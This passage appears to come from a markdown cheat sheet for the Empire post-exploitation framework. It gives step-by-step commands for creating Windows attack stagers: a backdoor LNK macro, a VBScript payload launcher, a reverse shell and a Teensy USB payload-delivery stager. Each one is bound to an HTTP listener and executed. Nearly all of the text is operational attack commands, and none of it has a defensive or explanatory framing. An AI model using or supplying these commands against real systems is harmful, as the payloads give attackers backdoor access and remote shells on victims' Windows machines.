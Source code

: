 1. **Select the Stager**:
    ```bash
    usestager windows_backdoorlnkmacro
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
        
------------------------------------------------------------------------------------------------------------------------------------------------------------   

### VBScript-Based Payload Launcher for Windows Systems with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_vbs
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------ 

### Reverse Shell Payload for Windows Systems with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_reverseshell
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------ 

### Teensy USB Exploit for Payload Delivery on Windows with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_teensy
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    